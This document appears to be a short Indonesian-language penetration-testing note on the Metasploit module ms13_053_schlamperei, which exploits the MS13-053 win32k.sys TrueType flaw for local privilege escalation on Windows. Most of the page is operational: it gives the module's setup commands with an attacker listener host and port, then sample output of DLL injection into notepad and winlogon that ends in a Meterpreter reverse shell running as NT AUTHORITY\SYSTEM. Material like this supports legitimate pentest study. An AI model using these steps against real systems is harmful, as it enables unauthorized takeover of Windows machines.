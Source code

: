 # ms13_053_schlamperei

Modul `ms13_053_schlamperei` di Metasploit adalah `modul exploit` local untuk sistem Windows yang memanfaatkan kerentanan dalam pengelolaan font `TrueType` di `win32k.sys` (`MS13-053`), dikenal dengan nama `Schlamperei`. Eksploitasi ini memungkinkan eskalasi hak akses ke `SYSTEM` melalui proses yang telah dikompromi.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms13_053_schlamperei
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Launching notepad to host the exploit...
[+] Process 804 launched.
[*] Reflectively injecting the exploit DLL into 804...
[*] Injecting exploit into 804...
[*] Found winlogon.exe with PID 472
[*] Creating the thread to execute in 0x480000 (pid=472)
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Meterpreter session 19 opened (192.168.1.11:4444 -> 192.168.1.53:49161) at 2025-05-17 06:32:21 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
